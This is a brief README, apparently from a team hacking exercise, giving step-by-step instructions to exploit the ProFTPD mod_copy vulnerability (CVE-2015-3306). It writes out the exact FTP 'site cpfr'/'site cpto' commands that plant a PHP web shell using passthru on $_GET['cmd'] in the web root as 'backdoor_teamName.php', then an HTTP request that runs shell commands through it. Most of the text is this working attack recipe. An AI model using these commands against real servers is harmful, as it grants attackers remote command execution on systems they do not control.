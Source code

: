 ## Stage One - pwning system
Create script to exploit vulnerability in given server.

### Steps to exploit
Create socket connection with given server

Send utf-8 encoded commands via socket:

`site cpfr /proc/self/cmdline\n`

`site cpto /tmp/.<?php echo passthru($_GET['cmd']); ?>\n`

`site cpfr /tmp/.<?php echo passthru($_GET['cmd']); ?>\n`

`site cpto /var/www/html/backdoor_teamName.php\n`

Send HTTP GET request to server with any bash command

`http://SERVER_IP/backdoor_teamName.php?cmd=whoami`

### References
1. http://www.cs.put.poznan.pl/csobaniec/software/python/py-qrc.html
2. https://www.cvedetails.com/cve/cve-2015-3306
